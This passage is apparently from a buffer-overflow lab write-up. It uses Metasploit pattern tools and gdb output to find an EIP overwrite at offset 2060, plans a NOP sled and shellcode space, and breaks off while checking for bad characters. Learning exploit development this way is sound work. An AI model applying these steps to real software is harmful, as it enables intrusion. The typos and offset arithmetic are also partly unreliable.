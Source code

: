 But we do not now the precise number this is where pattern creation come in. 
We start by creating a pattern by using metasploit framework, this we create a pattern which we can use to determ the space. 

```shell-session
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > pattern.txt
```

Lets inject the pattern into the program

```
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A -snip- Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9'")  

--snip--
  
Program received signal SIGSEGV, Segmentation fault.  
0x37714336 in ?? ()  
(gdb) info registers eip  
eip            0x37714336       0x37714336

```

```
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -q 0x37714336  
\[\*\] Exact match at offset 2060
```

We know we have to send 2060 to reach the EIP. lets validate it. 

```shell-session
run $(python "print '\x55' * 2060 + '\x66'* 4")

--snip-- 

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
We overwritten the EIP with our \x66. 


```
info proc all
```

Lets determin the size of the shellcode, We need a total for 2064 to reach EIP. 
We insert NOPS to ensure it gets execute clearly. 

100 byes of nops
150 bytes for the shell 
and 4 for EIP 

(2064 -100 - 150 -4)


Before we create out shell code we need to know if there are any bad characters.
we now need to create a break point
```
disas main 
```
find a function and create a break point
```
break leavemsg
```
